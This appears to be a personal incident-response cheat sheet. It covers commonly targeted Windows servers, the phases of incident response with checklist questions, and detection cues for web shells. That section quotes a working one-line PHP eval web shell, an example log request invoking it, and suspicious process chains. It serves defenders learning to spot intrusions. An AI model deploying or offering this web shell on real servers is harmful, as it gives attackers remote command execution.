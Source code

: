 # DFIR-Note
This Is just My Personal Note For Fast-IR


What are the Most Tragted Servers By the Adversy and Why :

1-SCCM is a platform that allows for an enterprise to package and deploy operating systems, software, and software updates.If you can gain access to SCCM, it makes for a great attack platform. It heavily integrates Windows PowerShell, has excellent network visibility, and has a number of SCCM clients as SYSTEM just waiting to execute your code as SYSTEM.



2-DC : Domin Controller 
Domain controllers contain the data that determines and validates access to your network, including any group policies and all computer names. Everything an attacker could possibly need to cause massive damage to your data and network is on the DC, which makes a DC a primary target during a cyberattack.

3-AD :ACTIVE DIRECTORY : DOMAIN CONTROLLER :: car : engine
Active Directory is a type of domain, and a domain controller is an important server on that domain. Kind of like how there are many types of cars, and every car needs an engine to operate. Every domain has a domain controller, but not every domain is Active Directory.

4-EX1: Microsoft Exchange Server is a mail server and calendaring server developed by Microsoft. It runs exclusively on Windows Server operating , allows hackers to gain full control over all mail traffic, including the ability to intercept, redirect, or modify the content of inbound and outbound messages. 

5- DMZ= In computer security, a DMZ or demilitarized zone is a physical or logical subnetwork that contains and exposes an organization's external-facing services to an untrusted network,

6-Fileshare server : becouse it face public network 

![](https://www.vmray.com/analyses/rtf-doc-cve-exploit-analysis/report/process_graph.svg)

**The 6 steps Of IR**

1. Preparation
This phase will be the work horse of your incident response planning, and in the end, the most crucial phase to protect your business. Part of this phase includes:

Develop incident response drill scenarios and regularly conduct mock data breaches to evaluate your incident response plan.
Ensure that all aspects of your incident response plan (training, execution, hardware and software resources, etc.) are 

Does the Incident Response Team know their roles and the required notifications to make?



2. Identification
This is the process where you determine whether you’ve been breached. A breach, or incident, could originate from many different areas.

 Questions to address 
When did the event happen?
How was it discovered?
Who discovered it?
Have any other areas been impacted?
What is the scope of the compromise?
Does it affect operations?
Has the source (point of entry) of the event been discovered?



3. Containment
When a breach is first discovered, your initial instinct may be to securely delete everything so you can just get rid of it. However, that will likely hurt you in the long run since you’ll be destroying valuable evidence that you need to determine where the breach started and devise a plan to prevent it from happening again.

Instead, contain the breach so it doesn’t spread and cause further damage to your business. If you can, disconnect affected devices from the Internet. Have short-term and long-term containment strategies ready. It’s also good to have a redundant system back-up to help restore business operations. That way, any compromised data isn’t lost forever.

This is also a good time to update and patch your systems, review your remote access protocols (requiring mandatory multi-factor authentication), change all user and administrative access credentials and harden all passwords.

WATCH: Forensics Lessons Learned Webinar

 Questions to address 
What’s been done to contain the breach short term?
What’s been done to contain the breach long term?
Has any discovered malware been quarantined from the rest of the environment?
What sort of backups are in place?
Does your remote access require true multi-factor authentication?
Have all access credentials been reviewed for legitimacy, hardened and changed?
Have you applied all recent security patches and updates?



4. Eradication
Once you’ve contained the issue, you need to find and eliminate the root cause of the breach. This means all malware should be securely removed, systems should again be hardened and patched, and updates should be applied.

Whether you do this yourself, or hire a third party to do it, you need to be thorough. If any trace of malware or security issues remain in your systems, you may still be losing valuable data, and your liability could increase.

 Questions to address 
Have artifacts/malware from the attacker been securely removed?
Has the system be hardened, patched, and updates applied?
Can the system be re-imaged?


5. Recovery
This is the process of restoring and returning affected systems and devices back into your business environment. During this time, it’s important to get your systems and business operations up and running again without the fear of another breach.


**Incedent Response For Webshell**
1- <?php ${${eval($_POST[potato])}};?>
2-One method of detection is to review web logs for suspicious GET requests. 
     exsample: ::1 — — [22/Aug/2018:12:42:00 -0400] “GET /dashboard/images/a.php?potato=ipconfig HTTP/1.1” 200 553 “-”       “Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko”

3-Process behaviour ! 
    exsample : a child of the web server process and run under the same user context as the server 
    Such as: w3wp.exe >>>cmd.exe or Powershell.exe or ipconfig
            httpd.exe >>> cmd.exe or whoami.exe or ifconfig
4- Run Yara Rules and Cheack All Public Servers Such As : DMZ server , Excagnge server , Fileshare server etc 

5- intrusion detection system/ intrusion prevention system logs,application logs, IIS/Apache logs, PCAP repositories, firewall logs, and reverse proxy logs.

**Incedent Response For Malware**


 
 
  

